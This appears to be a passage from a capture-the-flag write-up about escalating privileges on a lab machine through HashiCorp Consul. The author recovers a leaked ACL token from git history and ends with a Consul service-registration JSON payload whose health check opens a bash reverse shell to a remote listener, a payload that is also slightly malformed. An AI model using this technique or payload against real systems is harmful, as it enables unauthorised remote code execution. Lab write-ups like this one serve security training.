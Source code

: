 I tried to check the agent version, but get a permission denied:

```bash
developer@ambassador:~$ curl --silent http://localhost:8500/v1/agent/self 
Permission denied: token with AccessorID '00000000-0000-0000-0000-000000000002' lacks permission 'agent:read' on "ambassador"developer@ambassador:~$ 


```

This led me to wonder if i could create my own token to pass to the API.  Unfortunately I lacked acl:write permission.  I tried a few different JSON payloads in curl against /v1/agent/check/register, including "script", with a reverse shell but nothing seemed to work.  I also tried `consul acl token list` thinking perhaps the developer user had more access to consul than a HTTP request, but didn't have acl:read either.  My access was very restricted :(



Searching the file system for consul, I found a bash script in a directory for an app that looks familiar (whackywidget):

```bash
developer@ambassador:/opt$ find / -name '*consul*' 2> /dev/null
..snip..
/opt/consul
/opt/my-app/whackywidget/put-config-in-consul.sh
/usr/lib/systemd/system/consul.service
/usr/bin/consul

developer@ambassador:/opt$ cat /opt/my-app/whackywidget/put-config-in-consul.sh 
# We use Consul for application config in production, this script will help set the correct values for the app
# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running

consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
```

So `CONSUL_HTTP_TOKEN` needs to be set, and searching the file system yielded nothing.

I noticed in `/opt/my-app/` a .git directory.  Running a `git log -p` to show the commit diffs against this repository, I found:

```
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
```

The developer had clearly hard-coded their Consul token, realised their mistake, and removed it -- while forgetting the token was still accessible via git commit logs.

I found the following python script to do RCE over Consul API with a valid token: [Hashicorp-Consul-RCE-via-API/exploit.py at main · GatoGamer1155/Hashicorp-Consul-RCE-via-API · GitHub](https://github.com/GatoGamer1155/Hashicorp-Consul-RCE-via-API/blob/main/exploit.py)

This appears to `PUT /v1/agent/service/register`, with a JSON payload similar to:

```json
{
    "Address": "127.0.0.1",
    "check": {
        {
            "Args": ["/bin/bash", "-c", "bash -i >& /dev/tcp/10.10.10.10/1234 0>&1"],
            "interval": "10s",
            "Timeout": "864000s"
        }
    }
}
```
